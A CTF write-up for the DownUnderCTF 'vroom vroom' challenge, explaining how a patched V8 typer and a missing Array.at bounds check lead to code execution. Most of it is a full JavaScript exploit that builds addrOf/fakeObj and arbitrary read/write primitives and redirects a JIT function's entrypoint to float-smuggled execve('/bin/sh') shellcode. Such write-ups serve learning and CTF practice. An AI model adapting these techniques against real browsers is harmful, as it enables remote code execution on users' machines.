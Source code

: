 # vroom vroom

Disclaimer:
I did not solve this challenge during the CTF.
While I was able to identify and trigger the vulnerability, I was not able to turn this vulnerability into an out-of-bounds access without hitting SIGTRAPs as I was using older V8 exploitation techniques.
linz04 and \_icecreamman on the DownUnderCTF Discord were very helpful in helping me understand the changes to the typer and how to bypass them, as well as sradley's solution script.
In this writeup, the JIT-sprayed shellcode and trigger for the vulnerability are those from sradley's solution (https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/return-to-monke/solve/exploit.ks).

## Challenge

The Chromium "V8" JavaScript engine, with a patch that:
- changes the type of a 64-bit float result from a WASM function from a Number to a PlainNumber
- removes a Turbo typer hardening bounds check from the `Array.at` method

## Solution

Unlike a Number, a PlainNumber cannot be a NaN.
The patch will cause the typer to believe that the result of a WASM function that returns a float can never be NaN and will optimize the JITed function based on this assumption.
If we can convince the typer that an index will always be in-bounds of an array, we can bypass this bounds check.
We have to use the `Array.at` method for our out-of-bounds accesses, as the patch also removes an additional bounds check from this method.

Using this out-of-bounds access, we can create addrOf and fakeObj primitives.
We can also leak the map of an object.

Using these primitives and the leaked map, we can create a fake object with a controlled properties pointer.
By changing the value of this properties pointer, we can read and write to arbitrary addresses on the JSHeap.

Using this arbitrary read and write, we can change the entrypoint of a JITed function to point at our shellcode, which is smuggled in as floats.

By calling this function, we can execute our shellcode and spawn a shell.

## Exploit

```js
const buffer = new ArrayBuffer(8);
const floatarray = new Float64Array(buffer);
const biguint64array = new BigUint64Array(buffer);

function ftoi(x) {
	floatarray[0] = x;
	return biguint64array[0];
}

function itof(x) {
	biguint64array[0] = x;
	return floatarray[0];
}

// execve("/bin/sh", 0, 0);
// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
function jit_shellcode() {
	return [
		1.9711828979523134e-246,
		1.9562205631094693e-246,
		1.9557819155246427e-246,
		1.9711824228871598e-246,
		1.971182639857203e-246,
		1.9711829003383248e-246,
		1.9895153920223886e-246,
		1.971182898881177e-246
	];
}

/*
double a(double x) {
	return x;
}
*/
wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,134,128,128,128,0,1,96,1,124,1,124,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,142,128,128,128,0,2,6,109,101,109,111,114,121,2,0,1,97,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,32,0,11]);
wasmModule = new WebAssembly.Module(wasmCode);
wasmInstance = new WebAssembly.Instance(wasmModule);
wasm = wasmInstance.exports.a;

function jit_leakMap(n) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [1.1, 1.2];
	let b = {}; 
	b.a = 2.1;

	return [ftoi(a.at(i*4)), a, b];
}

function jit_addrOf(n, x) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [1.1, 1.2];
	const b = [{}, x]; 

	return [(ftoi(a.at(i*9)) & 0xfffffffen), a, b];
}

function jit_fakeObj(n, x) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [{}, {}];
	const b = [1.1, itof(x | 0x1n)]; 

	return [a.at(i*10), a, b];
}

for (let i=0; i < 1000000; i++) {
	jit_shellcode();
	jit_leakMap(NaN);
	jit_addrOf(NaN, {});
	jit_fakeObj(NaN, 1n);
}

function leakMap() {
	return jit_leakMap(NaN)[0];
}

function addrOf(x) {
	return jit_addrOf(NaN, x)[0];
}

function fakeObj(x) {
	return jit_fakeObj(NaN, x)[0];
}

map = leakMap();
console.log("map leak: ", map.toString(16));

test = {a:13.37};
test_addr = addrOf(test);
console.log("test addr: ", test_addr.toString(16));

test_fake = fakeObj(test_addr);
console.log("test fake === test: ", test_fake === test);

arr = [
	itof(map),
	1.1,
];

arr_addr = addrOf(arr);
console.log("arr addr: ", arr_addr.toString(16));

fake = fakeObj(arr_addr + 0x20n);

function arb_read(addr) {
	arr[1] = itof(((addr - 0x4n) | 0x1n) << 32n);
	return ftoi(fake.a);
}

function arb_write(addr, value) {
	arr[1] = itof(((addr - 0x4n) | 0x1n) << 32n);
	fake.a = itof(value);
}

console.log("read test: ", itof(arb_read(test_addr + 0x30n)));

arb_write(test_addr + 0x30n, 0x4094e40000000000n);
console.log("write test: ", test.a);

code = arb_read(addrOf(jit_shellcode) + 0x18n) & 0xfffffffen;
console.log("code addr: ", code.toString(16));

entry = arb_read(code + 0x10n);
console.log("entry: ", entry.toString(16));

arb_write(code + 0x10n, entry + 0x56n);

jit_shellcode();
```

## Flag

```
DUCTF{BuT_wHy_i5_v8_CaR_tH3mED_tH0Ugh_abf86c295245c2523c51384afd345741}
```
